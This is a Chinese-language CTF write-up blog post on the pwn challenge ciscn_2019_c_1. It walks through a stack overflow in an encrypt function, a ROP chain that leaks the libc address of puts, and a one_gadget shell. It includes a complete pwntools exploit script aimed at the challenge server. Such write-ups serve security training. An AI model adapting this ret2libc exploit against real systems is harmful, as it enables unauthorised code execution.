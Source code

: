 ```yaml
---
layout:     post   				    # 使用的布局（不需要改）
title:      ciscn_2019_c_1 WriteUp				# 标题 
subtitle:   Eutopia's Blog #副标题
date:       2023-10-23 				# 时间
author:     Eutopia 						# 作者
header-img: img/post-bg-3.jpg 	#这篇文章标题背景图片
catalog: true 						# 是否归档
tags:								#标签
    - 教程
    - CTF
    - PWN
    - ROP攻击
    - libc泄漏
---
```


# ciscn_2019_c_1 WriteUp

## 考点

- libc版本泄漏
- ROP攻击
- onegadget使用

## 解题过程

1. 使用`checksec`工具进行查看，程序为64位，NX保护

![checksec](./images/checksec.png)

2. 使用ida工具反编译。

`main`:

![main](images\main.png)

`encrypt`：

![encrypt](images\encrypt.png)

​		可以看出程序功能为对输入字符串进行加密，而加密`encrypt`函数中的get存在栈溢出漏洞。

3. 由于在程序中找不到`system`函数和`/bin/sh`字符串，所以需要进行ROP攻击，泄漏其libc地址，使用onegadget工具直接获取shell。
4. 使用ROPgadget工具获取泄漏libc地址所需的指令地址(`pop rdi`; )，然后获取程序中put_got表和put_plt表地址，执行栈溢出payload构造如下

```python
payload = flat(b"\0", b"a"*(0x50-1), 0x0, pop_rdi, puts_got, puts_plt, encrypt)
```

​		注意最后需要加上encrypt函数使程序重新回到漏洞函数处。

5. 获取libc基址后，再次进入漏洞函数，然后执行onegadget指令。获取shell。

## 结果

**构造脚本如下**

`python`：

```python
from pwn import *

context(arch="amd64", log_level="debug")
# p = process("./ciscn_2019_c_1")
p = remote("node4.buuoj.cn", 26936)

one_gadget = 0x10a38c  # 0x4f322, 0x4f2c5, 0x10a38c
pop_rdi = 0x400c83
encrypt = 0x4009A0

elf = ELF('./ciscn_2019_c_1')
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

libc = ELF('./libc-2.27.so')
puts_offset = libc.symbols['puts']

payload = flat(b"\0", b"a"*(0x50-1), 0x0, pop_rdi, puts_got, puts_plt, encrypt)
# gdb.attach(p, 'b *0x4009DD')
p.sendlineafter(b"Input your choice!", b'1')
p.sendlineafter(b'Input your Plaintext to be encrypted', payload)
p.recvuntil("\nCiphertext\n\n")
puts_addr = p.recv(6)
puts_addr = u64(puts_addr.ljust(8, b'\x00'))
success(hex(puts_addr))
libc_addr = puts_addr - puts_offset
success(hex(libc_addr))

one_gadget = libc_addr + one_gadget

payload = flat(b"\0", b'a'*(0x50-1), 0x0, one_gadget)
p.sendlineafter(b"Input your Plaintext to be encrypted", payload)


p.interactive()
```

成功获取flag

![result](images\result.png)
